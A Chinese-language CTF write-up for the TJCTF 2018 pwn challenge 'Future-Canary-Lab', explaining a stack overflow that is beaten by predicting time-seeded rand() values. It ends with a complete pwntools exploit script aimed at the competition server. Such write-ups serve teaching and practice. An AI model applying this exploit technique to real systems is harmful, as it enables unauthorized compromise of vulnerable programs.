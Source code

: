 <br>

### Future-Canary-Lab(points: 80)

首先看下开了哪些保护，发现又是个栈溢出的题目

```shell
▶ checksec interview 
[*] '/2018TJCTF/pwn-Future-Canary-Lab80/interview'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

首先main函数中`time(0)`获取当时系统时间，然后以此为随机数种子

![](http://wx2.sinaimg.cn/mw690/0060lm7Tly1fu5rfpfhv0j30ge05g0sx.jpg)

然后在interview函数中生成10个随机数，存在v1里，并copy一份给v3。

![](http://wx4.sinaimg.cn/mw690/0060lm7Tly1fu5rrqferrj30g30ev75e.jpg)

看下栈的情况会发现，v1处于ebp-0x10，s处于ebp-0x78，v3处于ebp-x038。

如果我们直接将s赋值一个很长的字符串+0xdeadbeef，那么原本和v1相等的v3则会被覆盖为我们的输入，造成check失败。所以我们应该构造一个包含这10个随机数的payload，再发过去就稳了。

> 这里还有一个坑点是在`a1-i+j`这里，我们在输入s之后会把`i`和`j`的值也覆盖掉，由于之后`j`还会被赋值为10，所以`i`还是我们输入的值，那么`a1`我们就不能传`0xdeadbeef`。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'L1B0'

from pwn import *
import ctypes
import sys
context.log_level = 'debug'

if sys.argv[1] == 'l':
	io = process('./test')
else:
	io = remote('problem1.tjctf.org', 8000)

dll = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6') 

v4 = dll.time(0)
#print v4
dll.srand(v4)
v3 = [ dll.rand()  for i in range(10) ]
payload = '\x11'*(0x40)
for i in v3:
	payload += p32(i)
payload += '\x11'*(0x18)	
payload += p32(0xdeadbeef+0x11111111-10)
#info(payload)

io.sendlineafter("?\n",payload)

io.interactive()
```
